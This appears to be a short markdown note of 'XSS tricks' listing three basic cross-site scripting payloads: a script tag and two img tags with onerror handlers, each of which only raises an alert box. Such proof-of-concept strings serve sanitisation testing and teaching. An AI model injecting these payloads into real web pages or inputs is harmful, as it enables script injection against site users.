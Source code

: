 # XSS

- XSS tricks:

<script>alert("xss")</script>

`<img src="xss.gif" onerror="alert(1)">`

`<img src="xss.gif" onerror="alert('xss')">`
